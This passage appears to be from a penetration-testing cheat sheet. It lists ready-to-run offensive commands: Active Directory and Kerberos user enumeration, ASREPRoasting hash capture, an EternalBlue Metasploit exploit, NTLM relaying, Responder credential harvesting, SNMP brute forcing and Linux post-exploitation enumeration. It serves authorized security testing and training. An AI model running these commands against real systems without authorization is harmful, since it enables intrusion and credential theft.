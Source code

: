 #### **Active Directory Enumeration**
```bash
# BloodHound data collection
bloodhound-python -u username -p password -d domain.local -ns 192.168.1.1 -c all

# PowerView equivalent with ldapsearch
ldapsearch -x -h dc.domain.local -D "username@domain.local" -W -b "dc=domain,dc=local"

# Kerbrute user enumeration
kerbrute userenum --dc 192.168.1.1 -d domain.local users.txt

# GetNPUsers (ASREPRoasting)
python3 GetNPUsers.py domain.local/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt
```

### **Phase 4.2: Network Service Exploitation**

#### **SMB/NetBIOS Exploitation**
```bash
# EternalBlue exploitation (MS17-010)
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target.com
exploit

# SMBRelay attacks
python3 ntlmrelayx.py -tf targets.txt -smb2support

# Responder for credential harvesting
responder -I eth0 -rdwv
```

#### **SNMP Exploitation**
```bash
# SNMP community string brute force
onesixtyone -c /usr/share/doc/onesixtyone/dict.txt -i targets.txt

# SNMP enumeration with SNMPwalk
snmpwalk -c public -v1 target.com 1.3.6.1.2.1.1.5.0  # System name
snmpwalk -c public -v1 target.com 1.3.6.1.2.1.25.4.2.1.2  # Running processes
```

---

## Post-Exploitation

### **Phase 7.1: System Enumeration**

#### **Linux Post-Exploitation**
```bash
# System information gathering
uname -a
cat /etc/*-release
whoami && id
ps aux
netstat -tulpn
ss -tulpn

# File system enumeration
find / -perm -4000 -type f 2>/dev/null    # SUID files
find / -perm -2000 -type f 2>/dev/null    # SGID files
find / -writable -type f 2>/dev/null      # World-writable files

```